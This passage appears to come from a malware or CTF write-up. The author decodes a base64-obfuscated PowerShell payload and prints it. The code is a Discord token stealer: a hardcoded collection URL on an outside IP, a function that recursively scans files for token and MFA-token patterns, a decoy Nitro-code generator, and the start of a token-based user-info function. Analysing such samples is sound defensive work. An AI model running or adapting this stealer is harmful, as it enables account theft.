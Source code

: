 Powershell code obviously.

![Screenshot4](./screenshots/4.png)

I extracted this as well and decoded the base64 encoded string which lands in the variable `$jozeq3n` by using the powershell on linux `pwsh`.

```powershell
$URL = "http://192.168.116.135:8080/rj1893rj1joijdkajwda"

function Steal {
    param (
        [string]$path
    )

    $tokens = @()

    try {
        Get-ChildItem -Path $path -File -Recurse -Force | ForEach-Object {

            try {
                $fileContent = Get-Content -Path $_.FullName -Raw -ErrorAction Stop

                foreach ($regex in @('[\w-]{26}\.[\w-]{6}\.[\w-]{25,110}', 'mfa\.[\w-]{80,95}')) {
                    $tokens += $fileContent | Select-String -Pattern $regex -AllMatches | ForEach-Object {
                        $_.Matches.Value
                    }
                }
            } catch {}
        }
    } catch {}

    return $tokens
}

function GenerateDiscordNitroCodes {
    param (
        [int]$numberOfCodes = 10,
        [int]$codeLength = 16
    )

    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
    $codes = @()

    for ($i = 0; $i -lt $numberOfCodes; $i++) {
        $code = -join (1..$codeLength | ForEach-Object { Get-Random -InputObject $chars.ToCharArray() })
        $codes += $code
    }

    return $codes
}

function Get-DiscordUserInfo {
    [CmdletBinding()]
    Param (
        [Parameter(Mandatory = $true)]
        [string]$Token
    )

```